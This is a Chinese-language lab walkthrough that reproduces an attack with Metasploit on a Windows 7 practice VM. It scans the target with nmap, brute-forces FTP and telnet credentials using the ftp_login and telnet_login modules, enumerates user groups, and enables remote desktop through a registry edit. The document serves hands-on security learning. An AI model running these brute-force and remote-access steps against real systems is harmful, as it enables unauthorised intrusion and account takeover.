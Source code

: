 # Metasploit进行密码破解复现

**攻击机**

> kali

**靶机**

> windows 7 

------------

进行信息收集：

1. 靶机ip获取

   * 首先先使用nmap工具对靶机的网段进行扫描查看靶机的ip地址

   * ```shell
     nmap -A -T4 -sV -vv 172.16.1.0/24
     ```

   * ![image-20201228075350418](../../image/image-20201228075350418.png)

   * 得到靶机ip：172.16.1.200和开启的服务

   * ![image-20201228075645349](../../image/image-20201228075645349.png)

     ```
     21/tcp open ftp
     23/tcp open telnet
     80/tcp open http
     3306/tcp open mysql
     3389/tcp open 远程桌面
     8080/tcp open http
     8081/tcp open http
     ```

2.  对服务的漏洞测试

   * ![image-20201228080520608](../../image/image-20201228080520608.png)

   * 21/tcp ftp

     * > ftp-anon: Anonymous FTP login allowed
       >
       > ftp开启了匿名登录

     * 尝试使用匿名登录并测试匿名用户的权限

     * ![image-20201228083038986](../../image/image-20201228083038986.png)

     * > 尝试创建文件的时候返回报错550，这个的意思是没有这个权限

     * 因为匿名用户权限太低，可以使用metasploit进行ftp的用户名和密码爆破来获取更高权限的用户登录

     * 搜索metasploit的ftp登录相关模块

     * ```shell
       search ftp_login
       ```

     * ![image-20201228084033736](../../image/image-20201228084033736.png)

     * 选择模块 

     * ```shell
       use auxiliary/scanner/ftp/ftp_login
       ```

     * ![image-20201228084147168](../../image/image-20201228084147168.png)

     * 查看需要的参数

     * ```shell
       show options
       ```

     * ![image-20201228084333053](../../image/image-20201228084333053.png)

     * ```shell
       PASS_FILE: 指定密码的字典 -> set PASS_FILE /vuln_password.txt
       USER_FILE: 指定用户名的字典 -> set USER_FILE /vuln_usernae.txt
       RHOSTS: 目标靶机的ip地址 -> set RHOSTS 172.16.1.200
       exploit/run: 执行模块
       ```

     * ![image-20201228084901676](../../image/image-20201228084901676.png)

     * ![image-20201228085217379](../../image/image-20201228085217379.png)

     * 得到ftp的用户名和密码test:123456

     * 去登录

     * ```shell
       ftp 172.16.1.200
       ```

     * ![image-20201228085451753](../../image/image-20201228085451753.png)

     * ![image-20201228085600244](../../image/image-20201228085600244.png)

     * ```shll
       创建测试文件夹
       mkdir test
       ```

     * 发现可以创建，然后测试是否可以进入其他的目录，使用cd .. 进入了一个疑似C盘的目录

     * ![image-20201228085752702](../../image/image-20201228085752702.png)

     * 说明了靶机的ftp服务没有做ftp的用户目录锁死

     * > 这样的危害很大，容易泄露其他用户的信息

     * 可以尝试使用telnet进行登录

   * 23/tcp telnet or 3389/tcp 远程桌面

     * ![image-20201228090230523](../../image/image-20201228090230523.png)

     * telnet登录失败说明ftp的这个test用户没有在telnet的用户组

     * 这样的话也可以尝试使用metaploit进行对telnet服务的用户和密码爆破

     * 进入metaploit

     * 搜索与telnet登录相关的模块

     * ```shell
       search telnet_login
       ```

     * ![image-20201228090807725](../../image/image-20201228090807725.png)

     * 选择模块和查看模块参数

     * ```shell
       use auxiliary/scanner/telnet/telnet_login
       show options
       ```

     * 设置参数

     * ```shell
       PASS_FILE: 指定密码的字典 -> set PASS_FILE /vuln_password.txt
       USER_FILE: 指定用户名的字典 -> set USER_FILE /vuln_usernae.txt
       RHOSTS: 目标靶机的ip地址 -> set RHOSTS 172.16.1.200
       exploit/run: 执行模块
       ```

     * 得到用户名和密码

     * ![image-20201228091911641](../../image/image-20201228091911641.png)

     * ![image-20201228091810721](../../image/image-20201228091810721.png)

     * 使用admin:999999登录telnet

     * ![image-20201228153557194](../../image/image-20201228153557194.png)

     * 登录成功，但是乱码

     * 可以使用

     * ```bat
       chcp 65001
       ```

     * 来暂时使用中文编码

     * ![image-20201228153754215](../../image/image-20201228153754215.png)

     * ```bat
       使用net user admin查看用户组
       ```

     * ![image-20201228154104951](../../image/image-20201228154104951.png)

     * admin 的用户只有登录电脑的权限用户组没有管理员的用户组

     * 可以查看另一个用户的用户组

     * ![image-20201228154352678](../../image/image-20201228154352678.png)

     * root这个用户的用户组是管理员的用户组所以可以通过这个去登录，靶机还开启了3389的服务可以使用root去使用远程桌面去登录(如果没有开启就使用命令开启)

     * reg add "hklm/system/currentcontrolset/control/terminal server" /v fdenytsconnections /t reg_dword /d 00000000 /f

     * rdesktop 172.16.1.200

     * ![image-20201228155027019](../../image/image-20201228155027019.png)

